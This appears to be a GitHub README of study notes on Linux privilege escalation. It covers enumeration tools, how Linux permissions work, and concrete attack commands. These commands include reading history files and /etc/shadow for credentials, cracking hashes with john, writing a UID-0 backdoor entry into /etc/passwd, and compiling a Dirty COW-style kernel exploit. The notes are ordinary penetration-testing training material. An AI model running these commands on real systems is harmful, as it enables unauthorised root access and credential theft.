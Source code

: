## Linux Privilege Escalation

![68747470733a2f2f7062732e7477696d672e636f6d2f6d656469612f44415a73453256555141415f62705a2e6a7067](https://user-images.githubusercontent.com/87951795/131122135-fea9fb57-8ea1-4a2a-8969-347305dc1814.jpg)

Windows / Linux Local Privilege Escalation Workshop: https://github.com/sagishahar/lpeworkshop
Linux PrivEsc cheatsheets: https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

Tools:
- https://github.com/diego-treitos/linux-smart-enumeration
- https://github.com/rebootuser/LinEnum

Other Tools:
- https://github.com/linted/linuxprivchecker
- https://github.com/AlessandroZ/BeRoot
- http://pentestmonkey.net/tools/audit/unix-privesc-check

Strategy:
1. Check your user (id, whoami).
2. Run Linux Smart Enumeration with increasing levels.
3. Run LinEnum & other scripts as well!
4. If your scripts are failing and you don’t know why, you can always run 
the manual commands from this course, and other Linux PrivEsc
cheatsheets online (e.g. https://blog.g0tmi1k.com/2011/08/basic-
linux-privilege-escalation/)
5. If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file. cat ~/.*history 
6. Have a quick look around for files in your user’s home directory and other common locations (e.g. /var/backup, /var/logs).
7. Try things that don’t have many steps first, e.g. Sudo, Cron Jobs, SUID files.
8. Have a good look at root processes, enumerate their versions and search for exploits.
9. Check for internal ports that you might be able to forward to your attacking machine.
10. At the end start to think about Kernel Exploits


Permissions in Linux:
- User accounts are configured in the /etc/passwd file.
- User password hashes are stored in the /etc/shadow file.
- Groups are configured in the /etc/group file.
  - Users have a primary group (has the same name  as their user account), and can have multiple secondary (or supplementary) groups.
- Users are identified by an integer user ID (UID). (root (UID) = 0) (id & cat /proc/$$/status | grep "[UG]id")
  - Real: A user’s real ID is who they actually are (the ID defined in /etc/passwd).
  - Effective: A user’s effective ID is normally equal to their real ID, however when executing a process as another user, the effective ID is set to that user’s real ID
  - Saved: saved ID is used to ensure that SUID processes can temporarily switch a user’s effective ID back to their real ID and back again without losing track of the original effective ID.

Files & Directories:  
![linux-file---folder-permissions](https://user-images.githubusercontent.com/87951795/131246543-ed68873f-40e0-49ba-b313-0e66c32baf52.gif)
- Files
  - Read – when set, the file contents can be read.
  - Write – when set, the file contents can be modified.
  - Execute – when set, the file can be executed (i.e. run as some kind of process).
- Directories
  - Execute – when set, the directory can be entered. Without this permission, neither the read nor write permissions will work.
  - Read – when set, the directory contents can be listed.
  - Write – when set, files and subdirectories can be created in the directory.
- Special Permissions
  - SUID: When set, files will get executed with the privileges of the file owner.
  - SGID: When set on a file, the file will get executed with the privileges of the file group. When set on a directory, files created within that directory will inherit the group of the directory itself.
  - -r-sr-sr-x The first s stands for the SUID and the second one stands for SGID.

## The kernel exploit:
Should be a last resort as kernel exploits can often be unstable and may be one shot or cause a system crash.
1. Enumerate kernel version (uname -a).
2. Find matching exploits use Linux Exploit Suggester 2 or (Google, ExploitDB, GitHub).  
  - https://github.com/jondonas/linux-exploit-suggester-2
```
./linux-exploit-suggester.pl -k (karnel vertion from uname -a)

or

searchsploit linux kernel 2.6.32 priv esc
searchsploit linux kernel 2.6 debian priv esc
```
3. Compile and run.
```
gcc -pthread c0w.c -o c0w
./c0w
/usr/bin/passwd
```
## Weak File Permissions
- Readable /etc/shadow:
  - cat /etc/shadow (copy password hash found between the first and second colons : to file)
  - john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
- Writable /etc/shadow:
  - mkpasswd -m sha-512 newpasswordhere
  - Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.
- Writable /etc/passwd 
  - if the second field of a user row in /etc/passwd contains a password hash, it takes precedent over the hash in /etc/shadow.
    - root: x:0:0:root:/root:/bin/bash
    - The “x” instructs Linux to look for the password hash in the /etc/shadow file
    - openssl passwd "password"
    - root:L9yLGxncbOROc:0:0:root:/root:/bin/bash
  - Alternatively, if we can only append to the file, we can create a new user but assign them the root user ID (0). This works because Linux allows multiple entries for the same user ID, as long as the usernames are different
    - newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash
  - In some versions of Linux, it is possible to simply delete the “x”, which Linux interprets as the user having no password
    - root::0:0:root:/root:/bin/bash
- Backups
  - It is always worth exploring the file system looking for readable backup files. Some common places include user home directories, the / (root) directory, /tmp, and /var/backups.
    - ls -la /home/user
    - ls -la /
    - ls -la /tmp
    - ls -la /var/backups
    - ls -l /.ssh
  - If we have a ssh key
    - confirm that root logins are even allowed via SSH:
    - grep PermitRootLogin /etc/ssh/sshd_config
    - chmod 600 root_key
  


